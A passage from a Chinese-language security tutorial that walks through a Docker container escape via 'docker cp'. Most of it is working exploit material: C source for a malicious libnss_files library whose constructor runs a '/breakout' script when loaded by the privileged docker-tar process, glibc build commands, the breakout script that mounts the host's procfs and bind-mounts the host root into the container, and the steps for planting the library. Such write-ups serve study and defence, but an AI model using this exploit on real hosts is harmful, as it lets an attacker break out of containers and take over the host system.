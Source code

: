 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111535776.png-water_print](assets/1699410413-54ec5f9ceb792322133d8d733f8179fb "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111535776.png-water_print")

可以看到加载了 `libnss_files-2.31.so`

##### [](#1322-%E6%9E%84%E5%BB%BA%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5%E5%BA%93)1.3.2.2 构建动态链接库

`libnss_*.so` 均在 Glibc 中，首先下载 Glibc 库到本地。

首先要注释掉 `gccwarn-c = -Wstrict-prototypes -Wold-style-definition`，避免加入 payload 后编译失败。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111540158.png-water_print](assets/1699410413-3b3b1a4993558e0a1589f3b3c6839e76 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111540158.png-water_print")

在 `./nss/nss_files` 目录下任意源码文件中添加 payload。以 `files-service.c` 为例。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>``` | ```c<br>// content should be added into nss/nss_files/files-service.c<br>#include <sys/types.h><br>#include <unistd.h><br>#include <stdio.h><br>#include <sys/wait.h><br><br># 容器内部原始 libnss_files.so.2 文件备份位置<br>#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"<br># 恶意 libnss_files.so.2 文件位置<br>#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"<br> <br>bool is_priviliged();<br> <br>__attribute__ ((constructor)) void run_at_link(void) {<br>     char * argv_break[2];<br>  // 判断是否容器外是高权限执行，即 docker-tar<br>     if (!is_priviliged())<br>           return;<br> <br>  // 攻击执行一次即可，用原始的替换备份的库文件<br>  // 避免后续对环境产生影响<br>     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);<br>  <br>    // 以 docker-tar 运行 /breakout 恶意脚本<br>  	if (!fork()) {<br>        // Child runs breakout<br>        argv_break[0] = strdup("/breakout");<br>        argv_break[1] = NULL;<br>        execve("/breakout", argv_break, NULL);<br>     }<br>     else<br>        wait(NULL); // Wait for child<br> <br>     return;<br>}<br><br>bool is_priviliged() {<br>     FILE * proc_file = fopen("/proc/self/exe", "r");<br>     if (proc_file != NULL) {<br>           fclose(proc_file);<br>           return false; // can open so /proc exists, not privileged<br>     }<br>     return true; // we're running in the context of docker-tar<br>}<br>``` |

编译：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```bash<br># 目录结构：<br>- gnu<br>	- glibc-2.27<br>	- glibc-build<br><br># 安装 bison<br>apt install bison<br># 新建 glibc-build 目录<br>mkdir glibc-build<br># 要到上级目录进行 config，不然会报错<br>./glibc-2.27/glibc-build/configure --prefix=/usr/<br># 编译<br>~/glibc-2.27/glibc-build make<br>``` |

##### [](#1323-%E9%80%83%E9%80%B8)1.3.2.3 逃逸

breakout 文件：

将 procfs 伪文件系统挂载到容器内，将 PID 为 1 的根目录 /proc/1/root 绑定挂载到容器内部即可。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```shell<br>#!/bin/bash<br><br>umount /host_fs && rm -rf /host_fs<br>mkdir /host_fs<br> <br> <br>mount -t proc none /proc     # mount the host's procfs over /proc<br>cd /proc/1/root              # chdir to host's root<br>mount --bind . /host_fs      # mount host root at /host_fs<br>``` |

首先创建 victim 容器：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker run -itd --name=victim ubuntu<br>``` |

将 breakout 脚本放到 victim 容器根目录。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker cp ./breakout victim:/breakout<br>``` |

进入容器，再将 `/lib/x86_64-linux-gnu` 下的 `libnss_files.so.2` 符号链接指向库文件移动到容器根目录下并重命名为 `original_libnss_files.so.2`，可以使用以下命令查看：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>readlink /lib/x86_64-linux-gnu/libnss_files.so.2<br><br>mv /lib/x86_64-linux-gnu/libnss_files.so.2 /original_libnss_files.so.2<br>``` |

最后将构建好的恶意 `libnss_files.so` 重命名为 `libnss_files.so.2`，放到容器内 `/lib/x86_64-linux-gnu` 下。
